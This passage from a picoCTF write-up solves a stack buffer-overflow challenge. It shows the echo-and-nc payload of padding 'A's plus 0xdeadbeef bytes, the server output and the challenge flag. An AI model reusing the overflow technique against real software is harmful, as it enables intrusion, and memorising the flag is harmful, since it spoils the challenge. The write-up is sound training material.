 ```
 echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde" | ./chall (basically piping the input into chall file). (\xef\xbe\xad\xde are the bytes for 0xdeadbeef). The code variable ended up as 0x4141414141414141 (the ASCII for 'A'), meaning I overflowed too far. To fix this, I reduced the number of A's in the input by four each time and retried until code was set to 0xdeadbeef.

>My room is so cluttered...  
What do you see?  
code == 0xdeadbeef: how did that happen??  
take a flag for your troubles  
picoCTF{flag}  

So finally on executing: 
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde" | nc mars.picoctf.net 31890  

the output showed the flag.

>My room is so cluttered...  
What do you see?  
code == 0xdeadbeef: how did that happen??  
take a flag for your troubles  
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}



## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

learnt about the concepts of buffer overflow vulnerabilities, how to exploit them to overwrite specific variables in memory. Also became a bit more familiar with tools like gdb to debug and analyze.

## Notes:

initially inluded too many A's in the payload which overwrite the wrong part. wasted a lot in experimenting with different input lengths and offsets. 

## Resources:

[buffer-overflow-pattern-generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
[https://github.com/hugsy/gef.git ~/gef](https://github.com/hugsy/gef)


***

